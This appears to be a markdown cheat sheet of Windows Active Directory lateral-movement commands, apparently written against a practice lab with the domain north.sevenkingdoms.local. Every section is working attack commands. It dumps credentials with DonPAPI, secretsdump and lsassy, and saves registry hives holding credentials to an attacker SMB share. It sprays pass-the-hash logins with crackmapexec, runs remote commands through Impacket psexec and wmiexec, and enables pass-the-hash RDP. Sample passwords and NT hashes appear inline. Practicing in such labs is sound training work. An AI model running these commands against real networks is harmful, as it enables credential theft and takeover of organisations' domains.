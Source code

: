 # Lateral movement
## DonPAPI
```
DonPAPI.py domain/user:passw0rd@target
DonPAPI.py --hashes <LM>:<NT> domain/user@target
DonPAPI.py -k domain/user@target
DonPAPI.py -local_auth user@target
```
## secretsdump & crackmapexec
```
python3 secretsdump.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 

#Password reuse and PTH attack
crackmapexec smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth
crackmapexec smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4'
```
##  Cached domain logon information
```
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.1\share'
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SECURITY' -o '\\192.168.56.1\share'

secretsdump -security SECURITY.save -system SYSTEM.save LOCAL
```

## LSASS
```
lsassy -d north.sevenkingdoms.local -u jeor.mormont -p _L0ngCl@w_ 192.168.56.22 -m dumpertdll -O dumpertdll_path=/workspace/Outflank-Dumpert-DLL.dll

ticketConverter.py kirbi_ticket.kirbi ccache_ticket.ccache
export KRB5CCNAME=ccache_ticket.ccache
wmiexec.py -k -no-pass north.sevenkingdoms.local/jeor.mormont
```

## Lateral Move with impacket
```
psexec -hashes 'cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
wmiexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
smbexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
atexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
dcomexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

## Other method
```
cme smb 192.168.56.11 -H ':cba36eccfd9d949c73bc73715364aff5' -d 'north' -u 'catelyn.stark' -x whoami
evil-winrm -i 192.168.56.11 -u catelyn.stark -H 'cba36eccfd9d949c73bc73715364aff5'

# Allow to RDP without password
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' 
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
xfreerdp /u:catelyn.stark /d:north.sevenkingdoms.local /pth:cba36eccfd9d949c73bc73715364aff5 /v:192.168.56.11
```